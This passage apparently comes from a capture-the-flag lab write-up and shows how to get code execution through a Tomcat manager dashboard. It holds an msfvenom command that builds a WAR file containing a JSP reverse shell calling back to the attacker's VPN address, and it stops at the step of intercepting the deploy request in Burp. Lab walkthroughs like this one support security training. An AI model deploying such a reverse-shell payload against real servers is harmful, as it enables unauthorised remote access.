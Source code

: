 Logged in in the dashboard we can deploy a war file, which get's unzipped to a jsp and gives us remote code execution.

[![tomcat_dashboard](/img/seal/tomcat_dashboard.png)](/img/seal/tomcat_dashboard.png)

In a first step we generate our war file with msfvenom pointing to our vpn ip.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.68 LPORT=7575 -f war -o sm.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
Saved as: sm.war
```

After selecting our file we set burp to intercept the next request and click on deploy.

[![intercept_1](/img/seal/intercept_1.png)](/img/seal/intercept_1.png)
